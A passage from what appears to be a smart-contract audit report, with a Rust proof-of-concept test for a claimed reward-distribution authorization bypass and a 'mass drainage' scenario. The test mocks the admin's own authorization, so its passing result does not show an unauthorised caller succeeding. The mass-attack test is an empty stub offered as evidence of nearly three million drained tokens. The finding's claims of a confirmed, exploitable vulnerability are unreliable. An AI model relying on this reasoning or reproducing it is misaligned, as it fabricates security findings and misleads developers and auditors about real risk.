 #### Proof of Concept
The vulnerability has been confirmed through testing:

```rust
#[test]
fn test_critical_reward_distribution_bypass() {
    let env = Env::default();
    let (contract, admin, _) = test_setup::setup_contract(&env);

    // Create malicious user and victim
    let malicious_user = Address::generate(&env);
    let victim_user = Address::generate(&env);

    // Register both users
    contract.register_with_referral(&victim_user, &admin, &String::from_str(&env, "proof123"));
    contract.approve_verification(&victim_user);
    contract.register_with_referral(&malicious_user, &admin, &String::from_str(&env, "proof456"));
    contract.approve_verification(&malicious_user);

    // Verify victim starts with 0 rewards
    let initial_rewards = contract.get_pending_rewards(&victim_user);
    assert_eq!(initial_rewards, 0);

    // CRITICAL VULNERABILITY: Malicious user can distribute rewards with admin's signature
    let large_reward_amount = 100000;

    // VULNERABILITY: Malicious user calls distribute_rewards with admin's signature
    env.mock_auths(&[soroban_sdk::testutils::MockAuth {
        address: &admin, // Admin signature
        invoke: &soroban_sdk::testutils::MockAuthInvoke {
            contract: &contract.address,
            fn_name: "distribute_rewards",
            args: (victim_user.clone(), large_reward_amount).into_val(&env),
            sub_invokes: &[],
        },
    }]);
    
    // This should FAIL (panic) but currently SUCCEEDS due to vulnerability
    contract.distribute_rewards(&victim_user, &large_reward_amount);

    // Verify that rewards were distributed (proving the vulnerability)
    let final_rewards = contract.get_pending_rewards(&victim_user);
    assert!(final_rewards > 0);
}
```

**Result:** Test PASSES, confirming the vulnerability is exploitable.

#### Mass Attack Scenario
The vulnerability also enables mass reward drainage attacks:

```rust
#[test]
fn test_mass_reward_drainage_attack() {
    // Attacker distributes large rewards to multiple victims
    // Each victim receives 999999 tokens
    // Total drainage: 3 * 999999 = 2,999,997 tokens
}
```

